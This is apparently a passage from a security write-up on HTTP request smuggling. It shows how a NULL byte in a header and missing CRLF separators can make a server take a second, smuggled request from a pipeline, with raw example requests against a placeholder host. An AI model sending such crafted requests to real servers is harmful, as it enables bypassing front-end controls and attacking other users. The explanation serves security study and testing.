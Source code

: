 Using a NULL byte character in a header causes the request to be rejected and premature end of query. If after the first error the pipeline does not close, the next line will be interpreted as the next request in the pipeline.

A valid pipeline might look something like:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
X-Foo: Bar

GET /index.html?bar=1 HTTP/1.1
Host: vulnerable-website.com
...
```

Generates 2 error `400 Bad Request`, because the second query is starting with `X-Foo: Bar` and that's an invalid first query line.

An invalid pipeline might look something like (as there'is no `\r\n` between the 2 queries):

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
GET /index.html?bar=1 HTTP/1.1
Host: vulnerable-website.com
...
```

It generates one error `400 Bad Request` and one `200 OK` response. Second query is taken as a valid.

But line `GET /index.html?bar=1 HTTP/1.1` is a bad header and most agent will reject early the fake pipeline as a bad query, because

```
GET /index.html?bar=1 HTTP/1.1
    !=
<HEADER-NAME-NO-SPACE>[:][SP]<HEADER-VALUE>[CR][LF]
```

The first line of the query has the following syntax:

```
<METHOD>[SP]<LOCATION>[SP]HTTP/[M].[m][CR][LF]
<METHOD>[SP]<http[s]://LOCATION>[SP]HTTP/[M].[m][CR][LF]
```

`LOCATION` may be used to inject the special `[:]` that is required in an header line, especially on the query string part, but this would inject a lot of bad characters in the `HEADER-NAME-NO-SPACE` part, like '/' or '?'.
 
But in the absolute uri syntax the special `[:]` comes with the line, and the bad character for an `HEADER-NAME-NO-SPACE` will only be a space. This will also fix the potential presence of the double `Host` header (absolute uri does replace the `Host` header).

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
GET http://vulnerable-website.com/index.html?bar=1 HTTP/1.1

```
